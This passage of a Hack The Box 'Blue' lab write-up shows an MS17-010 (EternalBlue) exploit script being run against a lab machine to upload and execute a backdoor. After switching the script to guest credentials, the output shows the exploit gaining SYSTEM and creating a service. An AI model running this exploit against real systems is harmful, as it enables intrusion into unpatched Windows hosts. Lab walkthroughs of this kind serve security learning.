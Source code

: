After installing all dependencies for the script, lets execute it

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Blue/MS17-010]
└─$ python send_and_execute.py 10.10.10.40 backdoor.exe                                                                                      
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Not found accessible named pipe
Done
```

This script failed, because it cannot find an accessible named pipe

Its the same problem when we tried to enumerate SMB using ```smbmap```

Sometimes default creds won't work for SMB, you have to explicitly mention the creds

Modifying this line in ```send_and_execute.py```

```c
USERNAME = 'guest'
```

Now lets try the exploit again,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Blue/MS17-010]
└─$ python send_and_execute.py 10.10.10.40 backdoor.exe
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: browser
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8001ca0020
SESSION: 0xfffff8a00e21f060
FLINK: 0xfffff8a001399048
InParam: 0xfffff8a00844715c
MID: 0x3807
unexpected alignment, diff: 0x-70aefb8
leak failed... try again
CONNECTION: 0xfffffa8001ca0020
SESSION: 0xfffff8a00e21f060
FLINK: 0xfffff8a008459088
InParam: 0xfffff8a00845315c
MID: 0x3803
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Sending file UFY6OQ.exe...
Opening SVCManager on 10.10.10.40.....
Creating service MasR.....
Starting service MasR.....
The NETBIOS connection with the remote host timed out.
Removing service MasR.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```
